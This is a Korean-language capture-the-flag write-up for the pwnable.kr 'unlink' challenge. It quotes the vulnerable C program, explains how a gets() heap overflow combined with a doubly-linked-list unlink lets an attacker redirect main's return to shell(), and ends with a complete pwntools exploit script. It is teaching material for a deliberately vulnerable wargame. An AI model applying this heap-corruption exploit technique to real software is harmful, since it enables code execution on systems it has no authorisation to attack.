 # [pwnable.kr] unlink

> Daddy! how can I exploit unlink corruption?
>
> ssh unlink@pwnable.kr -p2222 (pw: guest)

## Bug

```c
/* unlink.c */

int main(int argc, char* argv[]){
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
}
```

`gets(A->buf)`에서 heap overflow가 발생하여 `A->buf`부터 `B`와 `C`의 구조 전체를 원하는 값으로 덮어쓸 수 있다.

## Exploit

Stack과 heap의 주소를 leak해 주는 것을 이용하여 `main()`의 return address를 `shell()`의 주소로 덮어쓰면 shell을 획득할 수 있다.

```c
/* unlink.c */

void unlink(OBJ* P){
    OBJ* BK;
    OBJ* FD;
    BK=P->bk;
    FD=P->fd;
    FD->bk=BK;
    BK->fd=FD;
}
```

`unlink()`의 인자로는 `B`가 전달된다. 따라서 이 코드에서 `BK`와 `FD`에 임의의 값을 넣을 수 있다.

![image](https://github.com/user-attachments/assets/eab5d982-9a76-4c0d-9e16-46bce3e8bacb)

![image](https://github.com/user-attachments/assets/fe23d5cb-3767-44fe-ad06-4a80dc673ca9)

`FD->bk=BK;`와 `BK->fd=FD;`를 각각 실행하기 때문에 `FD`와 `BK`는 모두 쓰기 가능한 주소여야 한다. 그래서 `shell()`의 주소를 바로 넣을 수는 없고, heap에 `shell()`의 주소를 넣어 두고 `main()`의 `ebp`를 heap 주소로 덮어서 `shell()`로 return하도록 만들어야 한다.

![image](https://github.com/user-attachments/assets/44e8612d-64e5-49a7-a140-4bb3298f821c)

`main()`의 epilogue를 보면 `ebp-0x4` 위치에 저장된 값에서 4를 빼서 `esp`에 넣는다. 이 `esp`가 가리키는 주소에 `shell()`의 주소가 있으면 `main()`이 `shell()`로 return하게 된다.

```python
# ex.py

from pwn import *

p = ssh("unlink", "pwnable.kr", 2222, "guest").process("/home/unlink/unlink")

shell = 0x80484EB  # shell()

# leak stack and heap
p.recvuntil(b"here is stack address leak: 0x")
esp = int(p.recvline()[:-1], 16) - 0x14  # esp of main()
p.recvuntil(b"here is heap address leak: 0x")
heapbase = int(p.recvline()[:-1], 16) - 0x410  # heapbase
log.info("esp of main(): " + hex(esp))
log.info("heapbase: " + hex(heapbase))

# call shell()
payload = b"A" * 0x10  # dummy
payload += p32(heapbase + 0x430 + 4)  # FD
payload += p32(esp + 0x28 - 4)  # BK
payload += p32(shell)  # heapbase + 0x430

p.sendlineafter(b"now that you have leaks, get shell!\n", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/11a10080-21e7-4fa0-bc1b-1914cbf0507e)
